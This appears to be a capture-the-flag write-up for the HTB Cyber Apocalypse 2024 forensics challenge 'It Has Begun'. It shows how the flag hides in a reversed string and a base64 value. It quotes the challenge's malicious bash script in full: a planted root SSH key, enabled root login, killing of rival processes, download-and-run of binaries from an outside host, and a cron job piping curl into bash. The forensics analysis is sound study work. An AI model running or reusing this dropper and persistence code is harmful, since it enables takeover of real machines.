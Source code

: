 # Cyber Apocalypse 2024

## It Has Begun

> The Fray is upon us, and the very first challenge has been released! Are you ready factions!? Considering this is just the beginning, if you cannot musted the teamwork needed this early, then your doom is likely inevitable.
> 
> Author: c4n0pus
> 
> [`forensics_it_has_begun.zip`](forensics_it_has_begun.zip)

Tags: _forensics_

## Solution
The solution comes with an `bash script`. The flag must be in there, so we check it out... On line 14 we already see something that looks like part of the script, but in reverse: `user@tS_u0y_ll1w{BTH`, so we have `HTB{w1ll_y0u_St` as the first part.

The second part can be found in line 39, where a crontab entry is created. There it reads `...bash -c 'NG5kX3kwdVJfR3IwdU5kISF9'...`, if we decode this base64 string we get the second part: `4nd_y0uR_Gr0uNd!!}`.

```bash
#!/bin/sh

if [ "$HOSTNAME" != "KORP-STATION-013" ]; then
    exit
fi

if [ "$EUID" -ne 0 ]; then
    exit
fi

docker kill $(docker ps -q)
docker rm $(docker ps -a -q)

echo "ssh-rsa AAAAB4NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D7s4J0L7XV2kep0rNzgY1S1IdE8HDAf7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B user@tS_u0y_ll1w{BTH" >> /root/.ssh/authorized_keys
echo "nameserver 8.8.8.8" >> /etc/resolv.conf
echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
echo "128.90.59.19 legions.korp.htb" >> /etc/hosts

for filename in /proc/*; do
    ex=$(ls -latrh $filename 2> /dev/null|grep exe)
    if echo $ex |grep -q "/var/lib/postgresql/data/postgres\|atlas.x86\|dotsh\|/tmp/systemd-private-\|bin/sysinit\|.bin/xorg\|nine.x86\|data/pg_mem\|/var/lib/postgresql/data/.*/memory\|/var/tmp/.bin/systemd\|balder\|sys/systemd\|rtw88_pcied\|.bin/x\|httpd_watchdog\|/var/Sofia\|3caec218-ce42-42da-8f58-970b22d131e9\|/tmp/watchdog\|cpu_hu\|/tmp/Manager\|/tmp/manh\|/tmp/agettyd\|/var/tmp/java\|/var/lib/postgresql/data/pоstmaster\|/memfd\|/var/lib/postgresql/data/pgdata/pоstmaster\|/tmp/.metabase/metabasew"; then
        result=$(echo "$filename" | sed "s/\/proc\///")
        kill -9 $result
        echo found $filename $result
    fi
done

ARCH=$(uname -m)
array=("x86" "x86_64" "mips" "aarch64" "arm")

if [[ $(echo ${array[@]} | grep -o "$ARCH" | wc -w) -eq 0 ]]; then
  exit
fi


cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777 0xda4.0xda4.$ARCH; ./0xda4.0xda4.$ARCH;
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; tftp legions.korp.htb -c get 0xda4.0xda4.$ARCH; cat 0xda4.0xda4.$ARCH > DVRHelper; chmod +x *; ./DVRHelper $ARCH;
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; busybox wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777;./0xda4.0xda4.$ARCH;
echo "*/5 * * * * root curl -s http://legions.korp.htb/0xda4.0xda4.$ARCH | bash -c 'NG5kX3kwdVJfR3IwdU5kISF9' " >> /etc/crontab
```

Flag `HTB{w1ll_y0u_St4nd_y0uR_Gr0uNd!!}`
